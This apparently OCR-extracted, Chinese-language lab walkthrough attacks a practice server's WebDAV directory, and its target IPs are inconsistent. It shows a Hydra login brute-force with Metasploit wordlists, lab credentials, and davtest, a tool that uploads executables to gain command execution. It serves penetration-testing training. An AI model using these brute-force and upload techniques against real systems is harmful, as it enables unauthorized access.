 ```

```

输入目标IP地址，重定向到：

```
http://10.0.24.74/Default.aspx
```

访问`/webdav/`目录，需要进行HTTP身份验证：

```
10.2.17.124/webdav/
```

`/webdav/`: 包含认证表单的目录。

```
root@attackdefense:~# ls /usr/share/wordlists/metasploit/

common_passwords.txt
common_users.txt
```

```
root@attackdefense:~# hydra -L /usr/share/wordlists/metasploit/common_users.txt -P /usr/share/wordlists/metasploit/common_passwords.txt 10.0.24.74 http-get /webdav/
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-09-04 08:40:19
[DATA] max 16 tasks per 1 server, overall 16 tasks, 400 login tries (l:8/p:50), ~25 tries per task
[DATA] attacking http-get://10.0.24.74:80/webdav/
1 of 1 target completed, 0 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-09-04 08:40:22

```

在Authentication Required窗口中输入以下用户名和密码：

```
bob:password_123321
```

`webdav` 是一个协议，它允许我们从这个目录上传、下载文件以及修改和删除这个目录中的文件。 我们可以通过使用各种工具来做到这一点，我们将从 `devtest` 开始。

[Davtest](https://www.kali.org/tools/davtest/)

DAVTest tests WebDAV enabled servers by uploading test executable files, and then (optionally) uploading files which allow for command execution or other actions directly on the target. It is meant for penetration testers to quickly and easily determine if enabled DAV services are exploitable.

检查是否已在 Web 服务器上配置了 webdav。 使用 webdav 进行身份验证。

```
root@attackdefense:~# davtest -url http://10.0.24.74/webdav/
********************************************************
 Testing DAV connection
OPEN		FAIL:	http://10.0.24.74/webdav	Unauthorized. Basic realm="10.0.24.74"

```
